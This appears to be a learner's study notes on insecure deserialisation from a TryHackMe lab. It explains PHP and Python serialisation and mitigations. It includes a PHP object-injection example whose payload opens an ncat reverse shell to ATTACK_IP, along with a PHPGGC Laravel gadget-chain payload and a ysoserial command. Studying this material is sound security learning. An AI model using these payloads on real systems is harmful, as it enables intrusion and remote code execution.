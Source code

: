 📅 **Date**: 26 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: Server Side Attack
🏷️ Tags: #tryhackme #tryhackme/learn

---
# Insecure Deserialisation

## Serialisation
- [ ] **Definition**: Process of converting an object's state into a storable or transmittable format.
- [ ] **Analogy**: Like packing a school bag with books, notebooks, lunchbox, etc.
- [ ] **Purpose**: Used in web applications to transfer data between systems or networks.
- [ ] **Example in PHP**:
```php
<?php
$noteArray = array("title" => "My THM Note", "content" => "Welcome to THM!");
$serialisedNote = serialize($noteArray);  // Serialisation
file_put_contents('note.txt', $serialisedNote);  // Saving to file
?>
```

## Deserialisation
- [ ] **Definition**: Process of converting serialised data back into an object.
- [ ] **Analogy**: Like unpacking a school bag to use the items.
- [ ] **Purpose**: Retrieving data from files, databases, or networks.
- [ ] **Example in PHP**:
```php
<?php
$serialisedNote = file_get_contents('note.txt');  // Reading serialised data
$noteArray = unserialize($serialisedNote);  // Deserialisation
echo "Title: " . $noteArray['title'] . "<br>";
echo "Content: " . $noteArray['content'];
?>
```

## Insecure Deserialisation Vulnerabilities
- [ ] **Risk**: Attackers can manipulate serialised data to execute unauthorised actions or steal data.
- [ ] **Examples**:
    1. **Log4j Vulnerability (CVE-2021-44228)**:
        - [ ] **Impact**: Remote code execution via insecure deserialisation in Apache Log4j.
    2. **WebLogic Server RCE (CVE-2015-4852)**:
        - [ ] **Impact**: Remote code execution via maliciously crafted objects.
    3. **Jenkins Java Deserialisation (CVE-2016-0792)**:
        - [ ] **Impact**: Arbitrary code execution via crafted serialisation payloads.
## Serialisation in Different Languages
- [ ] **PHP**:
    - [ ] **Serialisation**: `serialize()` function.
    - [ ] **Deserialisation**: `unserialize()` function.
    - [ ] **Magic Methods**:
        - [ ] `__sleep()`: Called before serialisation.
        - [ ] `__wakeup()`: Called after deserialisation.
        - [ ] `__serialize()`: Custom serialisation (PHP 7.4+).
        - [ ] `__unserialize()`: Custom deserialisation (PHP 7.4+).
- [ ] **Python**:
    - [ ] **Serialisation**: `pickle.dumps()`.
    - [ ] **Deserialisation**: `pickle.loads()`.
    - [ ] **Base64 Encoding**: Used to safely transmit binary data.
	
---
## Exploitation Techniques
1. **Modifying Serialised Data**:
    - [ ] Example: Changing `isSubscribed` from `false` to `true` in a serialised cookie.
    - [ ] **Impact**: Unauthorised access to premium features.
2. **Object Injection**:
    - [ ] **Vulnerability**: Insecure deserialisation allows injecting malicious objects.
    - [ ] **Example**:
	```php
	<?php
	class MaliciousUserData {
		public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
	}
	$maliciousUserData = new MaliciousUserData();
	$serializedData = serialize($maliciousUserData);
	echo base64_encode($serializedData);
	?>
	```
    - [ ] **Impact**: Remote code execution via `__wakeup()` or `__destruct()`.
	
---
## Tools for Exploitation
1. **PHPGGC (PHP Gadget Chain)**:
    - [ ] **Purpose**: Generates gadget chains for PHP object injection.
    - [ ] **Usage**:
	```bash
	php phpggc Laravel/RCE3 system whoami
	``` 
    - [ ] **Example Payload**:
	```php
	O:40:"Illuminate\Broadcasting\PendingBroadcast":1:{s:9:"*events";O:39:"Illuminate\Notifications\ChannelManager":3:					 	         {s:6:"*app";s:6:"whoami";s:17:"*defaultChannel";s:1:"x";s:17:"*customCreators";a:1:{s:1:"x";s:6:"assert";}}}
	```
2. **Ysoserial (Java)**:
    - [ ] **Purpose**: Generates payloads for Java deserialisation vulnerabilities.
    - [ ] **Usage**:
	```java
	java -jar ysoserial.jar CommonsCollections1 'calc.exe'
	```
        
---
## Mitigation Strategies
1. **Red Team/Pentester Perspective**:
    - [ ] **Codebase Analysis**: Identify serialisation/deserialisation points.
    - [ ] **Vulnerability Identification**: Use static and dynamic analysis tools.
    - [ ] **Fuzzing**: Test with invalid or unexpected input data.
    - [ ] **Error Handling**: Assess how errors are handled during deserialisation.
2. **Secure Coder Perspective**:
    - [ ] **Avoid Insecure Formats**: Use JSON or XML instead of binary serialisation.
    - [ ] **Input Validation**: Validate and sanitise all inputs.
    - [ ] **Avoid `eval()` and `exec()`**: Prevent arbitrary code execution.
    - [ ] **Secure Coding Practices**: Follow least privilege, defence in depth, and fail-safe defaults.
    - [ ] **Adhere to Guidelines**: Follow language/framework-specific secure coding standards.

---
## Key Takeaways
- [ ] Serialisation and deserialisation are powerful but risky if not implemented securely.
- [ ] Insecure deserialisation can lead to remote code execution, data leakage, and unauthorised access.
- [ ] Tools like PHPGGC and Ysoserial automate exploitation but also help in identifying vulnerabilities.
- [ ] Mitigation involves secure coding practices, input validation, and avoiding insecure formats.
